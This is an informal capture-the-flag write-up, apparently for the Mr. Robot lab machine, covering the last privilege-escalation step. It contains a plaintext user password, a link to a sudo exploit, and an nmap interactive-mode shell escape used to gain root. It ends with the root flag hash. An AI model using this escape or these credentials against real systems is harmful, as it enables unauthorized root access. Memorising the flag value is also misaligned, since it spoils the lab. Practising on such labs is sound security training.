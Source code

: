 which will NOW allow me to su - robot to login with robot:abcdefghijklmnopqrstuvwxyz

I tried to do sudo and su earlier but it gave me an error for when you run those commands without interactive shells. 

sudo -l 
password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.

well logging in with robot didnt do much so far

https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss_u14.py

welp I tried another sudo privesc script idk im going to gtfobins

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
nmap --interactive
nmap> !sh
```

oh
# nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )


$ nmap --interactive
nmap --interactive

# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat firstboot_done
cat firstboot_done
# ls firstboot_done
ls firstboot_done
firstboot_done
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
